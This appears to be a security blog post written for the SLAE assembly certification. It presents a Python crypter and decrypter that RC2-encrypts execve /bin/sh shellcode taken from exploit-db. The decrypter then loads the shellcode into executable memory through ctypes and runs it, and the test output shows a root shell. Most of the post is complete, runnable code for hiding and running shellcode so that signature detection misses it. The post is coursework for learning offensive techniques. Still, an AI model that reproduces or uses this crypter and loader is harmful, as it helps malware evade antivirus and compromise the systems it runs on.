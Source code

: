 ```yaml
---
layout: single
title: RC2 Shellcode Crypter in Python - Linux x86
date: 2018-1-29
classes: wide
header:
  teaser: /assets/images/
---
```


Introduction
------------
RC2 is a symmetric-key block cipher which was popular in the first half of the 90s of the last century. RC2 also known as ARC2 was designed by Ron Rivest of RSA Security in 1987. Without going into too much details, RC2 consist of block size and key length amongst others things (more on that later). In this blog post, we’ll create RC2 shellcode crypter/decrpter to demonstrate the concept. Please note that I’m no RC2 expert and this blog post is by no means an overview of RC2 algorithm.

Crypter
-------
In order to create RC2 crypter there is couple of thing we need to figure out ahead of time. That is, key-length which can range from 8 to 1024 bits, cipher-mode which can be either ECB or CBC, and the secret key. We’ll use key length of `128-bits` and CBC as cipher mode which require an Initialization Vector. Here’s code referenced from [Chilkat](https://www.chilkatsoft.com/), will use the comments section to explain the process.

```python
import sys
import chilkat

# Define RC2 parameters
crypt = chilkat.CkCrypt2()
success = crypt.UnlockComponent("Anything for 30-day trial")
if (success != True):
    print(crypt.lastErrorText())
    sys.exit()

crypt.put_CryptAlgorithm("rc2")                                                  # set the encryption algorithm to "rc2"
crypt.put_CipherMode("cbc")                                                      # set cipher mode to "cbc"
crypt.put_KeyLength(128)                                                         # set key length 128-bit
crypt.put_Rc2EffectiveKeyLength(128)                                             #
crypt.put_PaddingScheme(0)                                                       # take care of padding
crypt.put_EncodingMode("hex")                                                    # set encoding mode to HEX
ivHex = "0001020304050607"                                                       # setup initialization vector for CBC mode.
crypt.SetEncodedIV(ivHex,"hex")                                                  # set encoding to HEX
keyHex = "000102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E1F"      # set secret key 128-bit
crypt.SetEncodedKey(keyHex,"hex")

# "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80", https://www.exploit-db.com/exploits/43735/
Encrypted_Shellcode = crypt.encryptStringENC("31c05089e2682f2f7368682f62696e89e350b00bcd80")  # encrypt shellcode in string NOT bytearray format
print "Encrypted Shellcode: " + Encrypted_Shellcode                                           # print encrypted shellcode
```

the above shellcode basically spawn shell for us and can be found [here](https://www.exploit-db.com/exploits/43735/). Let’s test it.

```sh
root@ubuntu:~# python RC2Crypter.py 
Encrypted Shellcode: F6F233BA271278F19E34812CC2B7ACD19385C2E7A6D477A4C72E71BF669540944E9E36B252321DB05BD96EE0223E5481
root@ubuntu:~#
```

Decrypter
---------
Hence RC2 is a symmetric-key algorithm meaning the same key is used for encryption and decryption, there is nothing much to it really other than reversing the process of encryption. All of the code used to execute the shellcode at run time can be found [here](http://hacktracking.blogspot.com/2015/05/execute-shellcode-in-python.html).

```python
from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
import sys
import chilkat

# Define RC2 parameters
crypt = chilkat.CkCrypt2()
success = crypt.UnlockComponent("Anything for 30-day trial")
if (success != True):
    print(crypt.lastErrorText())
    sys.exit()

crypt.put_CryptAlgorithm("rc2")                                                  # set the encryption algorithm to "rc2"
crypt.put_CipherMode("cbc")                                                      # set cipher mode to "cbc"
crypt.put_KeyLength(128)                                                         # set key length 128-bit
crypt.put_Rc2EffectiveKeyLength(128)                                             #
crypt.put_PaddingScheme(0)                                                       # take care of padding
crypt.put_EncodingMode("hex")                                                    # set encoding mode to HEX
ivHex = "0001020304050607"                                                       # setup initialization vector for CBC mode.
crypt.SetEncodedIV(ivHex,"hex")                                                  # set encoding to HEX
keyHex = "000102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E1F"      # set secret key 128-bit
crypt.SetEncodedKey(keyHex,"hex")

# decrypt shellcode, paste encrypted shellcode here
Encrypted_Shellcode = "F6F233BA271278F19E34812CC2B7ACD19385C2E7A6D477A4C72E71BF669540944E9E36B252321DB05BD96EE0223E5481"
Decrypted_Shellcode = crypt.decryptStringENC(Encrypted_Shellcode)                # decrypt shellcode

# execute decrypted shellcode
libc = CDLL('libc.so.6')
shellcode = Decrypted_Shellcode.decode('hex')
sc = c_char_p(shellcode)
size = len(shellcode)
addr = c_void_p(libc.valloc(size))
memmove(addr, sc, size)
libc.mprotect(addr, size, 0x7)
run = cast(addr, CFUNCTYPE(c_void_p))
run()
```

Let's test.

```sh
root@ubuntu:~# python RC2Decrypter.py 
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Its demo time! we’ll use `pyinstaller` to compile the python script.

[![Crypter/Decrypter Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/253265228?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
While researching crypters/decrypters, I found most of the blog posts out there were using C wrappers, so for the sake of not making a redundant one I decided to use python wrapper. This post marks the end of my SLAE journey in which I learned how little did I know and how much I still need to learn. Thank you Vivek Ramachandran and the people who helped make this course available! feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%207](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%207)
